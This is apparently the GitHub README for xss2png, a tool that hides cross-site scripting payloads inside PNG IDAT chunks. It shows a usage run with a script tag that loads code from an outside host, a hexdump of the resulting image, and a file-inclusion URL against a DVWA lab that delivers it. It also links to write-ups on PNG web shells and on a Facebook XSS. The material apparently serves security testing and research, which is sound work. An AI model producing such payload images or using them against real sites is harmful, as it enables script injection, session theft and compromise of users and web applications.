 # xss2png
PNG IDAT chunks XSS payload generator

A simple tool to generate PNG images with XSS payloads stored in PNG IDAT chunks

*Huge thanks to Nathaniel McHugh for sharing his PHP source code with me*

### Usage

```
~/$ python3 xss2png.py -p "<SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>" -o xss.png
               ____                    
 __  _____ ___|___ \ _ __  _ __   __ _ 
 \ \/ / __/ __| __) | '_ \| '_ \ / _` |
  >  <\__ \__ \/ __/| |_) | | | | (_| |
 /_/\_\___/___/_____| .__/|_| |_|\__, |
                    |_|          |___/
 PNG IDAT chunks XSS payload generator

[i] Using payload: <SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>

[i] Generating final PNG output
[!] PNG output saved as: xss.png
```
### Example

<img src="xss.png">

```
~/$ hexdump -C xss.png 
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 79 49 44 41  54 78 9c 63 fc 3c 53 43  |....yIDATx.c.<SC|
00000030  52 49 50 54 20 53 52 43  3d 2f 2f 58 53 53 2e 56  |RIPT SRC=//XSS.V|
00000040  41 56 4b 41 4d 49 4c 2e  43 5a 3e 3c 2f 53 43 52  |AVKAMIL.CZ></SCR|
00000050  49 50 54 3e 20 a0 ff ba  e3 fc ab 7f cf dc 0c 7b  |IPT> ..........{|
00000060  c5 f2 d2 cb 43 f1 c1 fd  db 2a cf df de ff fc ff  |....C....*......|
00000070  f9 87 1f 56 7f ff f2 04  7a 5c bf 72 f7 ca b3 37  |...V....z\.r...7|
00000080  9a 7a 6b 3b fb 18 19 19  46 c1 28 18 05 a3 60 14  |.zk;....F.(...`.|
00000090  8c 82 51 30 0a 46 c1 28  18 05 43 0e 00 00 1b 22  |..Q0.F.(..C...."|
000000a0  26 02 5b 4d 02 76 00 00  00 00 49 45 4e 44 ae 42  |&.[M.v....IEND.B|
000000b0  60 82                                             |`.|
000000b2
````

`https://dvwa.capturetheflag.cz/vulnerabilities/fi/?page=../../hackable/uploads/xss.png`

### Credits

fin1te  
Adam Logue  
huntergregal  
IDontPlayDarts  
Masato Kinugawa  
Nathaniel McHugh

### Relevant posts

06-2012 [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

11-2015 [Bug-hunter's Sorrow](https://www.slideshare.net/masatokinugawa/avtokyo-bug-hunters-sorrow-en)

01-2016 [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

03-2016 [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

### Other tools

[PNG-IDAT-chunks](https://github.com/vavkamil/old-repos-backup/tree/master/PNG-IDAT-chunks-master)

[PNG-IDAT-Payload-Generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator)

### Stack Overflow

[PHP shell on PNG's IDAT Chunk](https://stackoverflow.com/questions/49144776/php-shell-on-pngs-idat-chunk)
